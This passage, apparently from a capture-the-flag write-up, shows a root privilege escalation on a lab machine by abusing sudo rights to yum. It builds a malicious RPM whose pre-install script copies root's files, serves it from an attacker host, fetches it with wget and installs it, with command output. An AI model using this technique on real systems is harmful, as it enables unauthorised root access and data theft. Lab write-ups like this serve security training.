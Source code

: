 `jjameson` can run `yum` on the target as `root`. According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/), this can be leveraged for privilege escalation by creating a custom RPM that will be executed as `root`.

## Creating the Custom RPM

The custom RPM will copy all files that match the glob pattern `*.txt` in `/root/` to `/dev/shm/`.

On the attacker machine:

```bash
TF=$(mktemp -d)
echo 'cp /root/*.txt /dev/shm' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Produces `x-1.0-1.noarch.rpm` in the current directory.

## Installing the RPM and obtaining the `root` flag

Transfer `x-1.0-1.noarch.rpm` to the target and install.

On the attacker machine:

```bash
python3 -m http.server 80
```

On the target machine:

```bash
$ wget http://10.6.31.77/x-1.0-1.noarch.rpm                                             

--2021-07-13 01:37:19--  http://10.6.31.77/x-1.0-1.noarch.rpm
Connecting to 10.6.31.77:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6191 (6.0K) [application/x-redhat-package-manager]
Saving to: ‘x-1.0-1.noarch.rpm’
100%[===========================================================================================================================================>] 6,191       --.-K/s   in 0s       
2021-07-13 01:37:20 (22.7 MB/s) - ‘x-1.0-1.noarch.rpm’ saved [6191/6191]
```

```bash
$ sudo yum localinstall -y x-1.0-1.noarch.rpm

Loaded plugins: fastestmirror
Examining x-1.0-1.noarch.rpm: x-1.0-1.noarch
Marking x-1.0-1.noarch.rpm to be installed
Resolving Dependencies
--> Running transaction check
---> Package x.noarch 0:1.0-1 will be installed
--> Finished Dependency Resolution

Dependencies Resolved

=====================================================================================================================================================================================
 Package                              Arch                                      Version                                     Repository                                          Size
=====================================================================================================================================================================================
Installing:
 x                                    noarch                                    1.0-1                                       /x-1.0-1.noarch                                     24  

Transaction Summary
```